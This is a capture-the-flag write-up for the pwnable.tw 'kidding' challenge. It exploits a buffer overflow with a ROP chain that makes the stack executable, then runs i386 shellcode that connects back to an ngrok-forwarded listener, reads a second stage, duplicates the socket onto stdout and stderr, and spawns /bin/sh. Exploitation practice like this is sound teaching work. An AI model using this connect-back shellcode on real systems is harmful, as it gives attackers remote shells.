# pwnable.tw - kidding

Original challenge link: https://pwnable.tw/challenge/#16

You can as well download file here: [kidding.zip](kidding.zip)

There will be 1 file in zip:
- kidding

# 1. Find bug

First, let's check the basic information of file:

```bash
$ file kidding
kidding: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=17d38985f3a41f2ffb821c3ac7dfd0547522cc18, not stripped

$ checksec kidding
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

This is a 32-bit binary without being stripped and it's statically linked, which means it can run without libc. Next, let's decompile the binary with ghidra to get the flow. 

There is just 1 function main which reads 100 bytes from user and then closes all the file descriptor 0, 1 and 2:



So we just have a bug **Buffer Overflow**

# 2. Idea

For challenges like this one, statically linked with **Buffer Overflow**, we will have a function called `_dl_make_stack_executable` which will run mprotect for us. That was a new thing for me.

Using ghidra, we can get the pseudocode of `_dl_make_stack_executable`:



So if we can modify `__stack_prot` into `7` which means `rwx`, we can set the current stack to be executable. The variable `__libc_stack_end` will contains the end of stack which will be `&` with `_dl_pagesize`, which contains `0x1000`:



We can get those address easily because of `No PIE`. Hence, modify `__stack_prot` would not be a difficult work.

Let's assume that we can execute shellcode now. The next thing we want is to reopen stdin, stdout and stderr. I tried with the technique [here](https://blog.idiot.sg/2018-09-03/tokyowesterns-ctf-2018-load-pwn/) but failed when exploit locally. So I ask for advice from teammate and he tell me that I should use socket instead.

After searching for challenge which use socket, I ended up with [this blog](https://ptr-yudai.hatenablog.com/entry/2020/12/09/200118#pwn-420pts-Blacklist-4-solves). I see that he write the c code of socket and connect so I get the sample code from `geeksforgeeks` [here](https://www.geeksforgeeks.org/socket-programming-cc/) and compile it.

> And from this challenge, I know that SYS_SOCKET just create an endpoint, we cannot interact, read or write from the fd returned by SYS_SOCKET immediately. We need to execute SYS_CONNECT to establish a real connection and then, we can read and write to the fd returned by SYS_SOCKET.

We can SYS_CONNECT to our host via ngrok or we can create 1 bind socket and 1 socket to connect to that bind on server. For this writeup, we will use the first way, connect back to our host via ngrok. And with that new connection, we will send the second payload to make 
the binary execute dup2 and create shell for us.

Summary:
- Stage 1: Create socket and connect
- Stage 2: Second payload & get shell

# 3. Exploit

### Stage 1: Create socket and connect

First, we will need to modify `__stack_prot` to `7` so some gadgets will be needed:

```python
pop_eax          = 0x080b8536
pop_edx          = 0x0806ec8b
mov__eax_4__edx  = 0x08053502
jmp_esp          = 0x080bd13b
```

And we also need the global variable addresses which are used in `_dl_make_stack_executable`:

```python
__libc_stack_end = 0x80e9fc8
_dl_pagesize = 0x80eaa08
__stack_prot = 0x80e9fec
_dl_make_stack_executable = 0x0809a080
```

You can use gdb or ghidra or ida to find these addresses.

So now, let's change value of `__stack_prot` first, then move the address of `__libc_stack_end` to eax, which is first argument of function `_dl_make_stack_executable`, and finally, execute that function:

```python
payload = flat(
    0, 0, 0,        # Padding to saved eip
    # Set __stack_prot = 7
    pop_eax, __stack_prot - 4,
    pop_edx, 7,
    mov__eax_4__edx,

    # Set arg1 = __libc_stack_end
    pop_eax, __libc_stack_end,

    _dl_make_stack_executable,
    jmp_esp
)

p.send(payload)
p.interactive()
```

After that function, we can see that the esp is currently in rwx range. This is output from `vmmap`:



And this is our current stack address:



So if we `jmp esp`, we can execute our shellcode right after that so we add `jmp esp` gadget after we called `_dl_make_stack_executable`. Due to the limited input, our shellcode must be as short as possible.

As idea above, we will create a socket endpoint. Compile and debug with the source from `geeksforgeeks` [here](https://www.geeksforgeeks.org/socket-programming-cc/) to know what argument we need when execute socket function and connect function.

For the socket call, the arguments will be 2, 1 and 0:



Those argument is corresponding to this line `socket(AF_INET, SOCK_STREAM, 0)`.

Next, look at the connect function:

```c
serv_addr.sin_family = AF_INET;
serv_addr.sin_port = htons(8080);
inet_pton(AF_INET, "127.0.0.1", &serv_addr.sin_addr)

connect(sock, (struct sockaddr*)&serv_addr, sizeof(serv_addr))
```

There is a parameter `serv_addr` which is a structure (you can read it [here](https://elixir.bootlin.com/linux/latest/source/include/uapi/linux/in.h#L259)) but we don't want to view source here so just debug with gdb to see how it is placed.

The variable `serv_addr.sin_family` will contain number 2 of course because it is defined in source. Next, the function `htons()` will swap 2 bytes of port. With the port above is `8080` which in hex is `0x1f90`, `htons(0x1f90)` has output is `0x901f`, 2 bytes swapped with each other:

This is before `htons`:



After `htons`:


So `sin_family` and `sin_port` is not our problem now. The only problem is `sin_addr`. Debug before and after the execution of function `inet_pton` with address `127.0.0.1` and we can see the `sin_addr` changed:

Before `inet_pton`:



After `inet_pton`:



Look at the result, we can conclude as following:

```
>>> hex(127)
'0x7f'

>>> hex(0)
'0x0'

>>> hex(1)
'0x1'

>>> 127 . 0  . 0  . 1
>>> 7f    00   00   01
>>> # 127.0.0.1 = 0x7f000001
>>> u32(p32(0x7f000001)[::-1])
0x0100007f
```

That means it will swap all 4 byte from `0x7f000001` into `0x0100007f` and assign to `sin_addr`. Everything is clear now. Let's first make a endpoint socket with the shellcode below:

```python
shellcode = asm(
    '''
    sub sp, 0x200

    push eax
    push 1
    push 2

    mov al, 0x66        # SYS_SOCKETCALL
    push 1
    pop ebx             # SYS_SOCKET
    mov ecx, esp
    int 0x80
    ''', arch='i386', os='linux')
```

> socketcall can be found here: https://man7.org/linux/man-pages/man2/socketcall.2.html

Then, we need to open 2 terminal, one terminal run the netcat command: `nc -lnvp 54321`, one run ngrok command `ngrok tcp 54321` and the address which we can access outside of LAN is at the line `Forwarding` of ngrok:



To get the ip address of `0.tcp.ngrok.io`, we just simply ping that hostname:



So we have ip address and port now. Let's continue building our shellcode:

```python
host = args.HOST.split('.')
port = int(args.PORT)
host = u32(b''.join([p8(int(k)) for k in host]))
port = (u16(p16(port)[::-1]) << 16) | 2

shellcode = asm(
    '''
    sub sp, 0x200

    push eax
    push 1
    push 2

    mov al, 0x66        # SYS_SOCKETCALL
    push 1
    pop ebx             # SYS_SOCKET
    mov ecx, esp        # [2, 1, 0]
    int 0x80
    '''               + 
    f'push {host}\n' + 
    f'push {port}\n' + 
    '''
    mov ecx, esp        # serv_addr: [2, port, host]
    push 0x10
    push ecx
    push 0
    mov al, 0x66        # SYS_SOCKETCALL
    mov bl, 3           # SYS_CONNECT
    mov ecx, esp        # [0, serv_addr, 0X10]
    int 0x80
```

So now let's send our payload and shellcode together and see if our netcat has connection or not:

```python
p.send(payload + shellcode)
p.interactive()
```

We get EOF in our solve script:



But we also get unknown connection to our netcat:



That means we connected successfully. Now, we will want to send payload again but our shellcode is too long now, we have only a few bytes left for reading input and jump esp again. Let's run the script again and attach with gdb to check for stack and register right after we have executed SYS_CONNECT:



Because we want to do a read so ebx need to be set to fd returned from SYS_SOCKET, which is `0`. The next register ecx is set correctly with the stack address, we will need to set register edx to a number too. By looking at the stack, we can see that we can easily set ebx to null and edx to a number with `pop ebx` and then `pop edx`. After we get new shellcode, just simply jump again to esp to continue second stage execution:

```python
shellcode = asm(
    '''
    sub sp, 0x200

    push eax
    push 1
    push 2

    mov al, 0x66        # SYS_SOCKETCALL
    push 1
    pop ebx             # SYS_SOCKET
    mov ecx, esp        # [2, 1, 0]
    int 0x80
    '''               + 
    f'push {host}\n' + 
    f'push {port}\n' + 
    '''
    mov ecx, esp        # serv_addr: [2, port, host]
    push 0x10
    push ecx
    push 0
    mov al, 0x66        # SYS_SOCKETCALL
    mov bl, 3           # SYS_CONNECT
    mov ecx, esp        # [0, serv_addr, 0X10]
    int 0x80

    mov al, 3
    pop ebx
    pop edx
    int 0x80

    jmp esp
    ''', arch='i386', os='linux')
```

Running locally and attach with gdb to debug our shellcode to check if we can read the second stage shellcode or not. Start a new netcat and ngrok (if you have closed), then run the binary with gdb attach. The SYS_CONNECT executed successfully so our netcat has connection now:



Keep going with the shellcode and execute SYS_READ, we can see it's waiting for input from netcat. Let's type `AAAABBBBCCCCDDDD` and check in gdb, we can see our buffer (in ecx) changed. This is before we input:



And this is after we input that string:



We can also see the current stack is overwriten now:



It is overwriten with string `CCCCDDDD` so offset from the buffer to current stack is 8. Let's move to the next stage!

### Stage 2: Second payload & get shell

Now, we have the ability to control our program. Just craft a small or large shellcode and we still can execute that. The idea for this stage is that we will execute `dup2(<socket-fd>, 1)` and `dup2(<socket-fd>, 2)` to reopen stdout and stderr. After that, just simply create a shell and we can easily get the flag.

Let's create another script and execute netcat command:

```python
#!/usr/bin/python3

from pwn import *

p = process(['nc', '-lnvp', '54321'])
```

And now, our shellcode would be like this:

```python
payload = b'A'*8
payload += asm(
    '''
    add esp, 0x200

    ### dup2(<socket-fd>, 1) ###
    mov eax, 0x3f
    mov ebx, 0
    mov ecx, 1
    int 0x80

    ### dup2(<socket-fd>, 2) ###
    mov eax, 0x3f
    mov ebx, 0
    mov ecx, 2
    int 0x80

    ### execve("/bin/sh", 0, 0) ###
    push 6845231
    push 1852400175
    mov eax, 0xb
    mov ebx, esp
    xor ecx, ecx
    xor edx, edx
    int 0x80
    ''', arch='i386', os='linux')
p.sendafter(b'connect to', payload)
```

Execute this netcat script first and start ngrok at port 54321, then execute the solve script and we can get the shell.

Full code:
- Solve script: [solve.py](solve.py)
- Netcat script: [solve_nc.py](solve_nc.py)

# 4. Get flag


Sharing flag is not good so I will keep it secret here.